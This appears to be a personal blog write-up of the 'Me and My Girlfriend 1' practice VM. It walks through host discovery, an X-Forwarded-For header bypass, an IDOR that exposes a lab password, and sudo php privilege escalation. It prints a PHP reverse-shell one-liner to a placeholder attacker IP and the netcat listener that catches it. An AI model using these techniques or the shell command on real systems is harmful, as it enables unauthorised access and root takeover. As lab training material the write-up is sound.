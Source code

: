 ```yaml
---
title: "Me and My Girlfriend 1 Writeup"
date: 2020-02-16T19:09:19+11:00
description: "Writeup for Me and My Girlfriend 1 box"
draft: false
displayInLine: true
displayInMenu: true
draft: false
---
```


# Me and My Girlfriend Write-up 1

For this box, the overall objective is the break into Alice's account, find her secret (flag1.txt) and then gain root access (flag2.txt). When booting up the VM your greeted with a standard ubuntu login. Since no SQL injections work on this login, I need to find the IP of this machine to begin an NMAP scan.

To do this, I use the following command on my kali machine:

    netdiscover -r 192.168.220.0
    
    # -r = range of ips

This will allow me to detect any IP that exists in this range.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled.png)

As seen there are 4 IPs shown, only one of these is the ip of the alice machine. since *.1* and *.254* are the network and broadcast ip respectively, these leaves *.156* and *.2* but *.2* is most likely the gateway address.

I can further test this by performing and NMAP scan on the ip 192.168.220.156.

    nmap -A 192.168.220.156

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%201.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%201.png)

Boom so now I know that there are 2 open ports I can use. But one of them being port 80 with an apache version shows that there's a website. So now I'm going to see if i can access the website normally.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%202.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%202.png)

So we are greeted with this kind message telling that the site can only be accessed locally. So lets see if theres anything else.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%203.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%203.png)

There's a comment here saying that we should look up how to use x-forwarded-for

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%204.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%204.png)

So what we've gathered is that X-Forwarded-For is a HTTP header field. So from this lets have a look at the header field for the website by using **Burp Suite**

So before setting it up I have to make the necessary changes to Firefox

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%205.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%205.png)

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%206.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%206.png)

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%207.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%207.png)

- So we have to change the proxy setting in Firefox to be the same as the proxy listener in Burp Suite. By going to the bottom of preferences in Network Proxy and changing the configure proxy to manual and inputting the HTTP Proxy as the same ip and Port: *127.0.0.1 8080 .*

Now that this is configured we can refresh the page and capture the page.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%208.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%208.png)

So once we captured it, we can see the data it is able to capture in the refresh. If we navigate to headers we can see what information the headers have.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%209.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%209.png)

This is the header info for the site. So if we were to insert the X-Forwarder-For somewhere we should able to access local. 

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2010.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2010.png)

Inserting that should allow us to gain access to local given the two hints.

    X-Forwarded-For: localhost

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2011.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2011.png)

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2012.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2012.png)

Perfect, I gained access to the proper page. Now lets have alook around.

There was nothing of notability so now Im going to register to see if there anything else.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2013.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2013.png)

Now that I've registered I'm going to look around for potential clues.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2014.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2014.png)

I started playing around with the user_id in the url to see if it changes anything. and so it does. Now im just going to input random numbers and see where it goes.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2015.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2015.png)

Bingo, Alice. Now that we found her profile, we need to find out the password.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2016.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2016.png)

In the source code weve got the username and password,

    alice
    4lice3

Now to use this password on the Alice machine.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2017.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2017.png)

Were in, now lets dig in and find the flag

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2018.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2018.png)

So now we've got the first flag within a hidden file. Now we need to get root access to get the second flag.

So I didn't know where to go from here so I tried to find out what sudo command that Alice can use.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2019.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2019.png)

    sudo -l
    -l = list of If no command is specified, list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

Using the above command, I can determine that the Alice user can use the following command as root:

    /usr/bin/php

Now I need to figure a way to exploit this to gain root access.

After doing some researching into it, I found a cheat sheet for reverse shells and found this command:

    php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'

This along side netcat should allow me to gain access through the kali machine using the following command

    nc -nvlp 80

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2020.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2020.png)

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2021.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2021.png)

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2022.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2022.png)

Boom now I'm root, now I just need to navigate to the second flag.

![Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2023.png](Me%20and%20My%20Girlfriend%20Write%20up%201/Untitled%2023.png)